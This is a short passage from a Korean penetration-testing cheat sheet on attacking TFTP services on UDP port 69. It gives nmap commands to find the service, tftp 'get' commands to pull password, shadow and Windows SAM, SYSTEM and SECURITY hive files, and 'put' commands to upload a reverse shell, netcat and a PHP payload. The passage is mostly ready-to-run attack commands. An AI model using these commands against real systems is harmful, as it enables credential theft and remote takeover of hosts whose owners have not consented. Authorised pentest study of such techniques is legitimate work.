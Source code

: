 
## 🔧 TFTP 공격 (UDP 69)

### 📡 TFTP 서비스 확인

```bash
# TFTP 서비스 확인
nmap -sU -p 69 {IP}
nmap --script tftp-enum -p 69 {IP}

# TFTP 연결 시도
tftp {IP}
connect {IP}
status
```

### 📥 TFTP 파일 다운로드

```bash
# 기본 파일들 다운로드 시도
tftp {IP}
get passwd
get shadow
get hosts
get config.txt
get backup.cfg

# Windows 파일들 (Windows TFTP)
get boot.ini
get sam
get system
get security
```

### 📤 TFTP 파일 업로드

```bash
# 업로드 테스트
echo "test" > test.txt
tftp {IP}
put test.txt

# 페이로드 업로드
put reverse-shell.exe
put nc.exe
put payload.php
```

---

## 🔗 다른 서비스와 연계
